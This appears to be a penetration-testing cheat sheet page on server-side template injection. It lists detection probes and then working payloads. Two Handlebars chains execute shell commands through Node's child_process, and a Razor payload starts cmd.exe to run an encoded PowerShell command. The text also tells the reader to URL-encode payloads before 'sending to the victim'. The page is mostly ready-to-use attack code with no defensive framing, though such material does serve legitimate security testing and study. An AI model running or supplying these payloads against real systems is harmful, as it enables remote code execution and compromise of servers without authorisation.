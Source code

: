 ```yaml
---
description: Server-side template injection
---
```


# SSTI

<details>

<summary>Intro</summary>

* Server-side template injection is a vulnerability where the attacker injects malicious input into a template in order to execute commands on the server.

- SSTI is very common on Node.js websites

</details>

<details>

<summary>Identification</summary>

```bash
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

* If an SSTI exists, --> web server will detect these expressions as valid code --> attempt to execute them (7\*7=49)
* Look at error messages to identify the template engine being used.

</details>

<details>

<summary>Handlebars (NodeJS)</summary>

Do url-encode the following scripts before sending to the victim (using burp's decoder tab)

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

If the above has `require is not defined`, use the following script instead

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

</details>

<details>

<summary>SSTI in ASP.NET-Razor</summary>

Inputting: @(1+2) --> 3 (vuln to SSTI)

<figure><img src="../.gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

Using [#powershell-shellcode-runner](powershell-shellcode-runner.md#powershell-shellcode-runner "mention")

```csharp
@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc SQBFAFg..");
```

</details>
